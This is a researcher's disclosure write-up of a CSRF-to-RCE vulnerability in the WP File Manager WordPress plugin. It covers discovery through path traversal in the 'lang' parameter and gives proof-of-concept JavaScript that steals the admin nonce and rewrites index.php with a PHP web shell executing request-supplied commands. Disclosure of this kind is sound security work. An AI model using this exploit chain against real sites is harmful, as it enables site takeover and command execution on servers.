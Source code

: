
  author: 'Daniel',
  date: '2024-02',
  title: 'CSRF to RCE with WP File Manager',
  description:
    'CSRF to RCE',
}

  title: article.title,
  description: article.description,
}



### Plugin: CSRF to RCE with WP File Manager

- **Version:** 7.2.2
- **Author:** [Nota-Info](https://wordpress.org/plugins/wp-file-manager/)
- **Last Updated:** 7 days ago
- **Requires WordPress Version:** 4.0 or higher
- **Compatible up to:** 6.6.1
- **Requires PHP Version:** 5.2.4 or higher
- **Active Installations:** 1,000,000 +

https://wordpress.org/plugins/wp-file-manager/

## Addendum

Wordfence wrote their own article for this CVE.
https://www.wordfence.com/blog/2024/03/601-bounty-awarded-for-interesting-cross-site-request-forgery-to-local-js-file-inclusion-vulnerability-patched-in-file-manager-wordpress-plugin/

## Description 

The File Manager plugin for WordPress is vulnerable to Cross-Site Request Forgery in all versions up to, and including, 7.2.4. 
This is due to missing or incorrect nonce validation on the wp_file_manager page that includes files through the 'lang' parameter. 
This makes it possible for unauthenticated attackers to include local JavaScript files that can be leveraged to achieve RCE via a 
forged request granted they can trick a site administrator into performing an action such as clicking on a link. 
This issue was partially patched in version 7.2.4, and fully patched in 7.2.5.

### Discovery 

Initially carrying out checks for LFI noticed the Language select field would try to get a Javascript file depending on the language selected. A request was still made when the field was empty, and directory traversal was possible with "../". 

A ".js" is appended to the query, initially I tried splitting the URL with null bytes, converting the lang parameter to another query, adding # for a split on the fragment, while it may be possible; I moved on.

http://127.0.0.1:1337/wp-admin/admin.php?page=wp_file_manager&lang=bg#elf_l1_Lw

<Image src={Image1} alt="" />

After switching the language the application is trying to find:
```
http://127.0.0.1:1337/wp-content/plugins/wp-file-manager/lib/js/i18n/elfinder.bg.js?ver=7.2.2
```

Modifying the URL:
```
http://127.0.0.1:1337/wp-admin/admin.php?page=wp_file_manager&lang=../../../../../../#elf_l1_Lw
```
<Image src={Image2} alt="" />

After Inserting the "../" the resulting query looks like this.
```
http://127.0.0.1:1337/wp-content/plugins/.js/?ver=7.2.2
```
providing a sufficient amount will hit the base URL:
```
http://127.0.0.1:1337/wp-admin/admin.php?page=wp_file_manager&lang=..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F#elf_l1_Lw
```
<Image src={Image3} alt="" />

This increases the attack vector as the attacker has more opportunities to upload a JavaScript file on the server. 

## Attack prerequisites 

Given the "lang" parameter is requesting a JavaScript file and we can have the freedom to control where the victim retrieves it from.
We need to create a malicious JavaScript file; fairly typical for CSRF vulnerabilities to exploit the privileges of the victim to promote an attackers account, 
this attack doesn't specifically require the attack to be authenticated; so long as they can get a JavaScript file on the host. 
The Proof of concept script allows Remote Code Execution by getting the Administrator to edit a WordPress PHP file, appending basic Web Shell capabilities. 

For this example Ill be placing the poc.js file, under the "/wp-content/uploads/" directory.

## Proof Of Concept

### poc.js

```javascript

    function genRid(){
        return reqId = (+ new Date()).toString(16) + Math.floor(1000 * Math.random()).toString(16);
    }

```

The WordPress Nonce is read from the document object available when the script is first called.

```javascript

    var nonceget = document.querySelector("#file_manager_free_shortcode_admin-jsextra").text;
    nonce = nonceget.slice(89,99);

```

The initial XMLHttpRequest utilizes the WordPress nonce and retrieves a list of files from WP
File Manager.

```javascript

    var req1 = new XMLHttpRequest();
    req1.open('GET', `http://127.0.0.1:1337/wp-admin/admin-ajax.php?action=mk_file_folder_manager&_wpnonce=${nonce}&networkhref=&cmd=open&target=l1_Lw&init=1&tree=1&_=1707815126701`, false);
    req1.withCredentials = true;
    req1.send();
    var obj = JSON.parse(req1.response);
```

If the resulting Object returns with files; index.php is located. 

```javascript
    
    if (obj['files']){
        obj['files'].forEach(element => { if (element['mime'] == "text/x-php" && element['name'] == "index.php") { editFile(element); } }); 
    } 
```

Finally the file is edited with a XMLHttpRequest inserting malicious PHP along with the exsisting file content in the base WordPress index.php file.

```javascript

    function editFile(element){
        
        var payload = "%3C%3Fphp%0Adefine(+'WP_USE_THEMES'%2C+true+)%3B%0Arequire+__DIR__+.+'%2Fwp-blogheader.php'%3B%0A%0Aif+(isset(%24_REQUEST%5B%22bishop%22%5D))%7B%0A%09echo+system(%24_REQUEST%5B%22bishop%22%5D)%3B%0A%7D%3B";
        var params = `action=mk_file_folder_manager&_wpnonce=${nonce}&networkhref=&cmd=put&target=${element["hash"]}&encoding=UTF-8&content=${payload}&reqid=${genRid()}`;
        var freq = new XMLHttpRequest();
        freq.open('POST', 'http://127.0.0.1:1337/wp-admin/admin-ajax.php', false);
        freq.withCredentials = true;
        freq.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
        freq.send(params);
        var freqResponse = freq.response;
    }

```

If successful the system commands can be executed via appending a bishop parameter to the
index page.

<Image src={Image4} alt="" />
The contents of /etc/passwd